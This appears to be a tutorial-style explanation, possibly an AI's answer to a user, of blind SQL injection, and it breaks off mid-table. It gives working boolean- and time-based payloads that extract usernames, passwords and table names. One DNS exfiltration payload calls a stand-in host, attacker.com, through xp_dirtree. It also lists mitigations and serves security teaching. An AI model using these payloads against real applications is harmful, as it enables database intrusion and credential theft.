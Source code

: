 

# Inferential SQL Injection (Blind SQLi)

Inferential SQL Injection, also known as Blind SQLi, is a type of attack where the attacker can't see the direct results of their injection but can infer information by observing the application's behavior.

## Key Characteristics

1. **No direct output**: Unlike classic SQLi, there's no visible database output
2. **Boolean-based**: Inference through true/false responses
3. **Time-based**: Inference through response delays

## Common Attack Techniques

### Boolean-Based Blind SQLi
```sql
' AND 1=1 -- 
' AND 1=2 -- 
```

### Time-Based Blind SQLi
```sql
'; IF (1=1) WAITFOR DELAY '0:0:5' -- 
'; IF (1=2) WAITFOR DELAY '0:0:5' -- 
```

## Detection Methods

1. Observe differences in responses to true/false conditions
2. Measure response times for time-based payloads
3. Look for changes in HTTP status codes or error messages

## Exploitation Process

1. Identify injectable parameters
2. Determine backend database type
3. Craft conditional queries to extract data bit by bit:
continue from exploitation process point number 3


## Exploitation Process (continued)

3. **Craft conditional queries to extract data bit by bit**:
   - For Boolean-based: Use logical conditions to infer data character by character
     ```sql
     ' AND (SELECT SUBSTRING(username,1,1) FROM users WHERE id=1) = 'a' -- 
     ```
   - For Time-based: Use delays to confirm character matches
     ```sql
     '; IF (SELECT SUBSTRING(username,1,1) FROM users WHERE id=1) = 'a') WAITFOR DELAY '0:0:5' -- 
     ```

4. **Systematically extract information**:
   - Database version
   - Table names
   - Column names
   - Actual data records

5. **Automate the process**:
   - Use tools like SQLmap for efficient exploitation
   - Script custom attacks for specific scenarios

## Example Boolean-Based Attack Pattern

```sql
' AND (SELECT ASCII(SUBSTRING((SELECT TOP 1 table_name FROM information_schema.tables),1,1))) > 100 -- 
```

## Example Time-Based Attack Pattern

```sql
'; IF (SELECT ASCII(SUBSTRING((SELECT TOP 1 table_name FROM information_schema.tables),1,1))) > 100 WAITFOR DELAY '0:0:5' -- 
```

## Mitigation Strategies

1. **Use prepared statements with parameterized queries**
2. **Implement proper input validation**
3. **Apply principle of least privilege for database accounts**
4. **Configure proper error handling** (don't reveal database errors)
5. **Use Web Application Firewalls (WAFs)** to detect and block injection attempts

## Advanced Techniques

- Combine Boolean and Time-based approaches for reliability
- Use bit-shifting techniques for faster data extraction
- Exploit DNS exfiltration in restricted environments:
  ```sql
  '; DECLARE @data VARCHAR(1024); SELECT @data = (SELECT TOP 1 username FROM users); EXEC('master..xp_dirtree "\\'+@data+'.attacker.com\share"') -- 
```
Remember that Blind SQLi attacks can be time-consuming but are often successful against vulnerable applications that don't properly sanitize input.

Explain TIme based and Boolean Based more thorougly

 # Inferential SQL Injection (Blind SQLi): Time-Based and Boolean-Based

## Time-Based Blind SQL Injection

Time-based blind SQL injection is a technique where the attacker infers information by observing timing differences in the database responses.

### How it works:
1. The attacker injects SQL commands that cause the database to pause for a specified time if a condition is true
2. The application's response time indicates whether the condition was true or false
3. By measuring response times, the attacker can extract data bit by bit

### Example:
```sql
SELECT * FROM users WHERE username = 'admin' AND IF(1=1,SLEEP(5),0)--
```
- If the condition (1=1) is true, the database sleeps for 5 seconds before responding
- If false, it responds immediately

### Characteristics:
- Relies on database functions like `SLEEP()`, `WAITFOR DELAY`, or heavy queries
- Works even when no visible output differences exist
- Very slow but reliable method
- Often used when other blind techniques fail

## Boolean-Based Blind SQL Injection

Boolean-based blind SQL injection relies on observing differences in application behavior based on true/false conditions in injected queries.

### How it works:
1. The attacker crafts queries that return different responses based on boolean conditions
2. The application's behavior (error messages, content changes, HTTP status codes) reveals whether the condition was true or false
3. By systematically testing conditions, the attacker can reconstruct data

### Example:
```sql
SELECT * FROM products WHERE id = 1 AND SUBSTRING((SELECT password FROM users WHERE username = 'admin'), 1, 1) = 'a'
```
- If the first character of admin's password is 'a', the query returns product details
- If not, it might return an empty result or error page

### Characteristics:
- Faster than time-based but requires observable differences in responses
- Often uses string comparison functions (SUBSTRING, LIKE)
- Relies on inference from subtle application behavior changes
- Commonly used when errors are suppressed but application behavior differs

## Key Differences:

| Aspect            | Time-Based                          | Boolean-Based                     |
|-------------------|-------------------------------------|------------------------------------|
| Detection Method  | Measures response time              | Observes behavioral differences    |
| Speed             | Very slow                           | Relatively faster                  |
| Reliability       | High (timing is unambiguous
